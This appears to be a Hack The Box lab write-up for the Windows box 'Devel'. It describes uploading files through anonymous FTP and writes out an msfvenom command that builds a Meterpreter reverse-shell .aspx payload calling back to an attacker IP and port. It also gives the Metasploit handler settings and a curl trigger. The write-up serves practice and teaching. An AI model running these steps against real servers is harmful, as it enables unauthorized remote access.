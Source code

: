 ```yaml
---
title: Devel
date: 2020-05-09 11:29:00
description: Hack The Box Writeup
featured_image: '/images/blog/devel/devel.jpg'
tags: ['Hack The Box']
---
```


<p>Here is another box from Hack the Box (HTB) that is simple and great for beginners. In Devel's box, I'll be using Metasploit and the open FTP port to upload a webshell to gain shell access on the machine.</p>

<h2>Hack the box</h2>
<ul>
	<li>Operating System: Windows</li>
	<li>Difficulty: Easy</li>
</ul>

<h2>Information gathering</h2>

Let's start with the nmap scan. 

<img src="/images/blog/devel/ipaddress.jpg" alt="nmap scan">

<p>And our results are in:</p>

<img src="/images/blog/devel/nmapresults.jpg" alt="nmap results"> 

<p>The results look interesting. We can see that port 21 (FTP) is open, and it allows for anonymous login.</p>

<p>I tried logging in using the anonymous login--success. There wasn't anything interesting inside the files, but I was able to upload a file onto the FTP server. Here's what I did:</p>

<img src="/images/blog/devel/testupload.jpg" alt="nmap results"> 

<p>Since it's accessible through the command line, I also tried accessing the FTP service through the web browser so that I can use Burp Suite to see if I can get more information about this box.</p>

<p>Taking a look at the HTTP header, we can see that it's running ASP.NET. Meaning, it will likely be able to run a .aspx file when we start exploiting the box.</p>

<img src="/images/blog/devel/httpheader.jpg" alt="nmap results"> 

<p>Let's recap, we know two things right now:</p>

<ul>
	<li>We can upload files onto the FTP server.</li>
	<li>FTP is running on ASP.NET, so we can add a .aspx file.</li>
</ul>

<p>This might be enough for us to run an exploit since we can try uploading a payload generator with .aspx extension and gain the box via reverse shell. Let's give it a shot.</p>

<h2>Threat modelling</h2>

<p>The first thing that we want to do is create a payload. To create a payload we can use msfvenom by typing into the command line:</p>

<code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > rev.aspx</code>

<img src="/images/blog/devel/payload.jpg" alt="nmap results"> 

<p>Once the file is created, we'll want to upload it to the FTP service:</p>

<img src="/images/blog/devel/payloadftp.jpg" alt="nmap results"> 

<p>Okay, we're pretty much ready to exploit the box. Let's start by opening up Metasploit.</p>

<h2>Exploitation</h2>

<p>Once Metasploit opens, we can type in:</p>

<code>use exploit/multi/handler</code>

<p>This provides a listener for callbacks that are generated outside of Metasploit.</p>

<p>Next, I filled out the following:</p>

<ul>
	<li><code>set payload windows/meterpreter/reverse_tcp</code>: Sets the payload.</li>
	<li><code>set lhost tun0</code>: Sets the listening IP address.</li>
	<li><code>set lport 4444</code>: This should be the LPORT you listed when we created the payload above.</li>
	<li><code>options</code>: Good habit to make sure everything was filled.</li>
</ul>

<p>Okay, it should be ready to go. We can use the <code>exploit</code> command to run it.</p>

<img src="/images/blog/devel/metasploit.jpg" alt="nmap results"> 

<p>It looks like it's working! We can now open the payload file that we uploaded earlier either through the web browser or by typing in another terminal window:</p>

<code>curl http://10.10.10.5/rev.aspx</code>

<p>Once we've opened the file, we can go back to our Metasploit terminal window--and look at that! We now have access to the box. As always, we can use the <code>shell</code> command to gain shell access, so that you can get the root.txt and user.txt file.</p>

<img src="/images/blog/devel/shell.jpg" alt="nmap results"> 

<p>Great, another HTB machine completed.</p>
